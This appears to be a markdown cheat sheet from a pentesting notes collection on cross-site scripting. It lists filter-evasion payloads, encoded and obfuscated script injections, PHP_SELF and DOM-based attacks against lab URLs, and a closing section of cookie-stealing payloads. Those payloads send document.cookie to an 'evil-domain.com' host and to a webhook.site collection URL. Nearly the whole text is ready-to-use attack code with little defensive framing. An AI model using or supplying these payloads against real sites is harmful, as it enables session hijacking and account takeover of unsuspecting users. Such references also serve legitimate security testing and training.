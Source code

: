 # XSS : Cross Site Scripting

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
https://quanyang.github.io/the-abcs-of-xss/


### Templates
List of XSS templates:
https://gist.github.com/jossets/069ec356de6f73e16b88f07c79728565


### Basic
```html
<script>alert(1);</script>
```

### Filter : script tag
```html
<sRript>alert(1);</sCript>
```
### Remove : script tag
```html
<scr<script>ipt>alert(1);</sc</script>ript>
```

```
http://12.0.0.11/xss/example3.php?name=<scr<script>ipt>alert(1);</sc</script>ript>
http://12.0.0.11/xss/example3.php?name=%3Cscr%3Cscript%3Eipt%3Ealert(1);%3C/sc%3C/script%3Eript%3E
```


### Embed JS

- with the <a tag directly in the URL. You will need to click the link to trigger the JavaScript code.
```` html
    <a href='javascript:alert(1)' /> 
````
- with the <img> tag and the event onerror.
```html
    <img src='zzzz' onerror='alert(1)' />
```
- with the <div tag and the following events: onmouseover, onmouseout, onmousemove, onclick...




### Convert to Ascii code
https://www.browserling.com/tools/text-to-ascii
````
alert(1) => 97,108,101,114,116,40,49,41
<script>eval(String.fromCharCode( 97,108,101,114,116,40,49,41));</script>
````

### PHP : Abusing $_SERVER['PHP_SELF'];
$_SERVER['PHP_SELF'] = URL base request. 
````html
<form method="post" action="<?php echo $_SERVER['PHP_SELF']; ?>">

GET http://12.0.0.11/xss/example8.php/bob"><script>alert(1)</script><
=>
<?php bob"> <script>alert(1)</script> <?>
````

### Abusing DOM
````html
GET http://ptl-bf67ed09-7529df2e.libcurl.so/index.php#bob
<p>Welcome <script>document.write(decodeURIComponent(location.hash.substring(1)));</script></p>
Welcome bob
GET http://ptl-bf67ed09-7529df2e.libcurl.so/index.php#</script>>script>alert(1)</script>
````


## XSS payload client


### Steal cookies
````javascript
    (new Image()).src = "http://www.evil-domain.com/steal-cookie?cookie=" + document.cookie;
````
````html
<script>
document.write('<img src="[URL]?c='+document.cookie+'" />');
</script>
````

Send cookies to webhook : https://webhook.site/
Once the browser renders the JavaScript the <img tag should look like:
````<img src="[URL]?c=[COOKIE]"/>````
And it will send the cookies to your website.
Make sure you don't forget to encode the + in the URL (%2b).
````html
<script>document.write('<img 
src="https://webhook.site/83c6be25-52d2-47a3-ba2f-6615b183fdbc?c='%2bdocument.cookie%2b'" />');</script>

````
